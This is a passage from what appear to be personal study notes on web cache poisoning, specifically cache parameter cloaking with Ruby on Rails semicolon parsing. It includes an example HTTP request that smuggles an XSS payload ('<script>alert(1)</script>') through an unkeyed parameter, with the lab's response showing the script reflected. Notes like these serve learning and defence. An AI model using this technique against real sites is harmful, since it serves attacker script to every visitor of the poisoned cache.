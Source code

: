 We can use `param miner` to do the task and find unkeyed query parameters.

![Param Miner](/hackingnotes/images/web-cache-poisoning-02.png)


## Cache parameter cloaking

If you can work out how the cache parses the URL to identify and remove the unwanted parameters, you might find some interesting quirks. Of particular interest are any parsing discrepancies between the cache and the application. This can potentially allow you to sneak arbitrary parameters into the application logic by "cloaking" them in an excluded parameter. 

* **Exploiting parameter parsing quirks**:

The Ruby on Rails framework, for example, interprets both ampersands (&) and semicolons (;) as delimiters. When used in conjunction with a cache that does not allow this, you can potentially exploit another quirk to override the value of a keyed parameter in the application logic. 

```
GET /?keyed_param=abc&unkeyed_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `unkeyed_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

1. `keyed_param=abc`
2. `unkeyed_param=123;keyed_param=bad-stuff-here`

Once the parsing algorithm removes the `unkeyed_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters: 

1. `keyed_param=abc`
2. `unkeyed_param=123`
3. `keyed_param=bad-stuff-here`

Now we have duplicated `keyed_param`, which on ruby on rails gives precedence to the final occurrence, so we can add our payload `keyed_param=bad-stuff-here` and it will be cached for the original `keyed_param=abc` cache key.

```
GET /?keyed=1&unkeyed_param=2;keyed='/><script>alert(1)</script> HTTP/2
Host: vulnerable-website.com


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 8248

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//vulnerable-website.com/?utm_content='/><script>alert(1)</script>'/>
```

